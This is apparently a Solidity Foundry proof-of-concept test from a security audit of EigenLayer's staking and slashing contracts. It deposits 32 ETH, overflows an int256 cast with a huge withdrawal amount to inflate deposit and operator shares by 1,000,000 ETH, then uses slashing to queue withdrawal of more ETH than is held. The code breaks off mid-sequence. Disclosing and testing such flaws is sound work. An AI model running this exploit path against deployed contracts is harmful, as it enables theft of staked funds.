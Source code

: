 ```solidity
        (User staker, uint[] memory tokenBalances) = _newStaker(strategies);
        // overriding the random balance from _newStaker
        console.log("\n\n----- (0) INITIAL STATE  --------------------");
        console.log("---------------------------------------------");
        uint stakerETHBalance = 32 ether;
        tokenBalances[0] = stakerETHBalance;
        cheats.deal(address(staker), stakerETHBalance);
        console.log("\xF0\x9F\x8E\xAF Staker ETH balance at start: %e", address(staker).balance);

        //// 1️⃣ Staker deposit into strategy
        console.log("\n\n----- (1) DEPOSIT INTO EIGEN LAYER ----------");
        console.log("---------------------------------------------");
        uint256 stakerShares;
        staker.depositIntoEigenlayer(strategies, tokenBalances);
        stakerShares = uint(eigenPodManager.podOwnerDepositShares(address(staker)));
        assertEq(32 ether, stakerShares);
        console.log("\xF0\x9F\x8E\xAF Staker depositShares: %e", stakerShares);

        // Ensure staker is not delegated to anyone post deposit
        assertFalse(delegationManager.isDelegated(address(staker)), "Staker should not be delegated after deposit");

        //// 2️⃣ Staker Queue Withdrawal with an amount that will overflow when casted into int256
        //// this will inflate the podOwnerDepositShares by 1_000_000 ETH
        console.log("\n\n----- (2) FIRST QUEUE WITHDRAWAL ------------");
        console.log("---------------------------------------------");
        Withdrawal[] memory withdrawals;
        uint[] memory shares = new uint[](1);
        uint256 sharesToWithdraw;
        sharesToWithdraw = (2**256) - 1_000_000 ether;
        shares[0] = sharesToWithdraw;
        withdrawals = staker.queueWithdrawals(strategies, shares);

        stakerShares = uint(eigenPodManager.podOwnerDepositShares(address(staker)));
        assertEq(32 ether + 1_000_000 ether, stakerShares);
        console.log("\xF0\x9F\x8E\xAF Staker depositShares: %e", stakerShares);

        //// 3️⃣ Staker delegates to opertor which will now inflate OperatorShares by the same amount
        console.log("\n\n----- (3) STAKER DELEGATE TO OPERATOR -------");
        console.log("---------------------------------------------");
        staker.delegateTo(operator);
        logOperatorShares(operator, strategies);

        // its not possible to force-undelegate the staker as this would revert because of the inflated shares to queue withdraw
        // operator.forceUndelegate(staker);

        //// 4️⃣ Slash Operator in OperatorSet
        console.log("\n\n----- (4) OPERATOR GET SLASHED --------------");
        console.log("---------------------------------------------");        
        uint wadToSlash = 0.5 * 1e18; // 50%
        SlashingParams memory slashParams = _genSlashing_Custom(operator, operatorSet, wadToSlash);
        avs.slashOperator(slashParams);
        logOperatorShares(operator, strategies);

        //// 5️⃣ Queue Withdrawal, because we have been slashed by 50%, but have an inflated number of shares
        //// we can request to withdraw "64 ETH" even though we only have 32 ETH in the pod, because 64*50% = 32
        console.log("\n\n----- (5) STAKER SECOND QUEUE WITHDRAWAL -----");
        console.log("----------------------------------------------");   
        sharesToWithdraw = 64 ether;
```